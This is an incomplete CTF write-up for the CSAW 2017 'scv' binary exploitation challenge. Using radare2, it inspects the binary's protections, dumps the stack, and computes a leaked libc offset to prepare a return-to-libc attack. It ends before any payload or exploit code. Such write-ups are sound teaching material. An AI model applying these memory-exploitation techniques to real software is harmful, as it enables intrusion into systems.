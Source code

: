
Pwn 100p "scv" using radare2
============================

SCV is too hungry to mine the minerals. Can you give him some food?

`nc pwn.chal.csaw.io 3764`

----

```bash
$ file ./scv
ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked
```

```bash
$ r2 ./scv -c info
canary   true
nx       true 
pic      false
relro    partial
relocs   false
stripped true
...
```

Hence, most likeyly we cannot use the stack to execute arbitrary code.
Most likely this is a ret2libc (return-to-libc) attack.

Using `pxr @rsp` at bp 0x00400b0a it is notable

```python
[0x00400b0a]> pxr @rsp
0x7fff48aab750  0x0000000100000000   ........ @rsp
0x7fff48aab758  0x0000000400000001   ........
0x7fff48aab760  0x0000000041414141   AAAA.... @rsi ascii
0x7fff48aab768  0x00000000006022f9   ."`..... (LOAD1) (/root/ctf/csaw17/scv/scv) program R W 0x0 --> r14
0x7fff48aab770  0x0000000000400930   0.@..... (LOAD0) (/root/ctf/csaw17/scv/scv) sub._ZNSt8ios_base4InitD1Ev_72_930 sub._ZNSt8ios_base4InitD1Ev_72_930 program R X 'jmp qword [rip + 0x201712]' 'scv'
0x7fff48aab778  0x0000000000400930   0.@..... (LOAD0) (/root/ctf/csaw17/scv/scv) sub._ZNSt8ios_base4InitD1Ev_72_930 sub._ZNSt8ios_base4InitD1Ev_72_930 program R X 'jmp qword [rip + 0x201712]' 'scv'
0x7fff48aab780  0x0000000000602080   . `..... (LOAD1) (/root/ctf/csaw17/scv/scv) program R W 0x0 --> r14
0x7fff48aab788  0x00007f65b306c299   ....e... (/root/ctf/csaw17/scv/libc-2.23.so) library R X 'test rax, rax' 'libc-2.23.so'
...
```

Look at the last line. That is a junk on the stack pointing in to libc. Great!

Find where libc is dynamically loaded using `dmi`:
[0x00400b0a]> dmi
0x00400000 /root/ctf/csaw17/scv/scv
0x7f65b3032000 /root/ctf/csaw17/scv/libc-2.23.so
...

Lets find out the offset to the junk found on the stack: 0x7f65b306c299 - 0x7f65b3032000 = 0x3a299.
Perfect! Now we have a reference to map._root_ctf_csaw17_scv_libc_2.23.so.






